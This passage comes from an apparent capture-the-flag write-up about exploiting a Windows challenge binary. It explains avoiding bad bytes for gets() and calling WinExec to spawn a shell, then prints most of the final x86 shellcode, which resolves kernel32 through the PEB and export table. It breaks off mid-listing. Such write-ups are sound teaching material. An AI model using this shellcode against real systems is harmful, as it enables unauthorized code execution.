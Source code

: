 One last issue, we can't use `0x0a`, cause it causes gets() to stop reading. Luckily, this is just for positioning the window. And since the person who wrote this wanted to work like normal, he used `10`. I can just change this to `1`.

```asm
push 0x01
```

So WinExec gets called with our path and `SW_SHOWNORMAL` window mode. Not that it matters since we're just popping a shell.


## Getting the Flag <a name="Flag"></a>
Because we reclaimed our stack, `ret` will return back to where our address for the sleep function is on the DLL, and return to that and cause the chal process to sleep. Since the shell is async, we need our chal to sleep, or else it will exit causing our connection to exit.

Our final exploit assembly:

```asm
push eax
push ebx
push ecx
push edx
push esi
push edi
push ebp

push ebp
mov ebp, esp
sub esp, 0x18

xor esi, esi
push esi
push 0x63
pushw 0x6578
push 0x456e6957
mov [ebp-4], esp

xor esi, esi
mov ebx, [fs:0x30 + esi]
mov ebx, [ebx + 0x0C] 
mov ebx, [ebx + 0x14] 
mov ebx, [ebx]	
mov ebx, [ebx]	
mov ebx, [ebx + 0x10]
mov [ebp-8], ebx


mov eax, [ebx + 0x3C]
add eax, ebx
mov eax, [eax + 0x78]
add eax, ebx

mov ecx, [eax + 0x24]
add ecx, ebx 
mov [ebp-0x0C], ecx

mov edi, [eax + 0x20]
add edi, ebx
mov [ebp-0x10], edi


mov esi, eax
add esi, 0x20
dec esi
```